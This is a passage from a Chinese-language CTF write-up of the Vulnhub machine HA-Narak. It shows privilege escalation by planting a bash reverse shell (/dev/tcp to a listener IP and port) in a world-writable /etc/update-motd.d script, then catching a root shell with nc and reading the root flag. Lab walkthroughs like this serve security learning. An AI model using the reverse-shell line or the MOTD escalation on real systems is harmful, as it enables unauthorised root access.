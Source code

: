```
inferno@ubuntu:~$ 
```

实际上到这已经没思路了，于是翻看了一下大师傅的 WriteUp 视频，发现大师傅是通过 MOTD 来进行提权的。

```
inferno@ubuntu:~$ ll /etc/update-motd.d/
total 36
drwxrwxrwx  2 root root 4096 Sep 21  2020 ./                                                                                                                 
drwxr-xr-x 80 root root 4096 Sep 22  2020 ../                                                                                                                
-rwxrwxrwx  1 root root 1220 Apr  9  2018 00-header*
-rwxrwxrwx  1 root root 1157 Apr  9  2018 10-help-text*
-rwxrwxrwx  1 root root 4251 Apr  9  2018 50-motd-news*
-rwxrwxrwx  1 root root  604 Mar 21  2018 80-esm*
-rwxrwxrwx  1 root root 3017 Mar 21  2018 80-livepatch*
-rwxrwxrwx  1 root root  299 May 18  2017 91-release-upgrade*
```

{% blockquote motd 介绍 %}
在 Linux 中，MOTD（Message of the Day）是指在用户登录系统时显示的一条信息或欢迎消息。 MOTD 通常用于向用户提供系统公告、警告、重要通知或其他相关信息。

MOTD 消息通常存储在一个文件中，可以通过编辑该文件来自定义 MOTD 内容。在大多数 Linux 发行版中， MOTD 文件的位置是 `/etc/motd` 。在打开的 MOTD 文件中，可以输入自定义的欢迎消息或其他所需的信息。保存并关闭文件后，新的 MOTD 将在下次用户登录时显示。

某些 Linux 发行版可能还有其他方式来管理 MOTD ，例如使用 `/etc/update-motd.d/` 目录中的脚本来生成 MOTD 。这些脚本可以在每次用户登录时**动态**生成 MOTD 消息。

无论使用哪种方法， MOTD 提供了一种在用户登录系统时向其显示重要信息的方式，以便提供必要的通知和提示。
{% endblockquote %}

根据上述的介绍，可以知道 MOTD 是动态生成的，所以我们直接进入 `/etc/update-motd.d/` 目录，在 `00-header` 文件中添加反弹 shell ：

``` bash
bash -c "bash -i >& /dev/tcp/192.168.118.130/2333 0>&1"
```

nc 监听，成功反弹：

```
┌──(kali㉿kali)-[~/Desktop/BoxWalk/Vulnhub/HA-Narak]
└─$ nc -lvnp 2333 
listening on [any] 2333 ...
connect to [192.168.118.130] from (UNKNOWN) [192.168.118.132] 56488
bash: cannot set terminal process group (11762): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/# cd root
cd root
root@ubuntu:/root# cat ./root.txt
cat ./root.txt
██████████████████████████████████████████████████████████████████████████████████████████
█░░░░░░██████████░░░░░░█░░░░░░░░░░░░░░█░░░░░░░░░░░░░░░░███░░░░░░░░░░░░░░█░░░░░░██░░░░░░░░█
█░░▄▀░░░░░░░░░░██░░▄▀░░█░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀▄▀▄▀▄▀▄▀▄▀░░███░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀░░██░░▄▀▄▀░░█
█░░▄▀▄▀▄▀▄▀▄▀░░██░░▄▀░░█░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░░░▄▀░░███░░▄▀░░░░░░▄▀░░█░░▄▀░░██░░▄▀░░░░█
█░░▄▀░░░░░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░████░░▄▀░░███░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░███
█░░▄▀░░██░░▄▀░░██░░▄▀░░█░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░░░▄▀░░███░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░▄▀░░███
█░░▄▀░░██░░▄▀░░██░░▄▀░░█░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀▄▀▄▀▄▀▄▀▄▀░░███░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀▄▀▄▀▄▀▄▀░░███
█░░▄▀░░██░░▄▀░░██░░▄▀░░█░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░▄▀░░░░███░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░▄▀░░███
█░░▄▀░░██░░▄▀░░░░░░▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░█████░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░███
█░░▄▀░░██░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░░░░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░░░█
█░░▄▀░░██░░░░░░░░░░▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀▄▀▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀▄▀░░█
█░░░░░░██████████░░░░░░█░░░░░░██░░░░░░█░░░░░░██░░░░░░░░░░█░░░░░░██░░░░░░█░░░░░░██░░░░░░░░█
██████████████████████████████████████████████████████████████████████████████████████████
                           
                                                                                    
Root Flag: {9440aee508b6215995219c58c8ba4b45}

```